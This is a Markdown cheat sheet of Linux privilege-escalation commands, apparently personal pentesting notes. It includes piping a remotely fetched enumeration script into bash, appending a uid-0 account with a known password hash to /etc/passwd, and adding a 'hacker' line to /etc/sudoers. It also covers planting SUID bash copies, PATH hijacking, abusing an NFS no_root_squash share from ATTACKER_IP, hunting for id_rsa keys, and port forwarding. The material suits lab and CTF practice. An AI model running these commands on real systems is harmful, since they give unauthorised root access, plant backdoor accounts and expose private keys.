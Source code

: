 # Privesc

## LinEnum

```
python -m SimpleHTTPServer 8000
```

```
curl IP:8000/linenum.sh | bash
```

Add -t for a thorough check

## Linux priv checker

## linux-smart-enumeration

Unlike LinEnum, lse tries to gradualy expose the information depending on its importance from a privesc point of view.

https://github.com/diego-treitos/linux-smart-enumeration

## Useful commands

Obtain the kernel version

```
uname -a
```

Check for misconfigurations in permissions

```
whoami

id

sudo -l

history
```

Find processes running as root

```
ps -ef | grep root
```

Process log files

```
cat file | awk '{print 7}' | sort | uniq -c
```

### Network enumeration

Find network cards, routes and reachable networks

```bash
ip addr
ip route
ip neigh
```

See running ports

```
netstat -tunlp

netstat -ano
```

### Add sudo password hash
A user with password toor

```
$ openssl passwd -1 -salt salt password

echo 'user1:sXuCKi7k3Xh/s:0:0::/root:/bin/bash' > /tmp/hack
append /tmp/hack to /etc/passwd
```

### Add user to sudoers

```
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

### SUID bit add to /bin/bash

```bash
echo "chmod 4777 /bin/bash" >> backup.sh

as root

cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

## Finding SUID bits

```
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -ls 2>/dev/null
```

## Finding writable dirs

```
find /-writable -type d 2>/dev/null
```

## Find file

```bash
find / -name id_rsa 2>/dev/null
```

## TCP Dump

```
cd /tmp
tcpdump -D
tcpdump -w file.pcap -i lo
```

## PSPY32

pspy32 script which is a little command-line script which basically monitors scheduled Linux processes

```
cd /tmp
upload /pspy32
python -c 'import pty;pty.spawn("/bin/bash")'
chmod 777 pspy32
./pspy32
```

## PATH variable exploitation

```
cd /tmp

echo "/bin/bash" > ps
chmod 777 ps

or 

cp /bin/sh /tmp/ps

echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell
whoami
```

## Capabilities

```
getcap -r / 2>/dev/null
```

## NFS Root Squashing

```
cat /etc/exports

check for no_root_squash

On the attacker machine
mount -o rw, vers=2 ATTACKER_IP:/tmp /mount/attacker

```

## Port Forwarding

`ss -tulpn` it will tell us what socket connections are running

To forward a port

```
ssh -L 10000:localhost:10000 <username>@<ip>
```

### Meterpreter

```
portfwd add -l 22 -p 22 -r 127.0.0.1
```

-l is our local port we want to use.
-p is the remote port we want to get access to.
-r is the remote address

### socat binary

```
/tmp/socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22
```

[linuxprivchecker.py -- a Linux Privilege Escalation Check Script](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)

[Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[Linux Privilege Escalation using SUID Binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)

[ A guide to Linux Privilege Escalation](https://payatu.com/guide-linux-privilege-escalation)
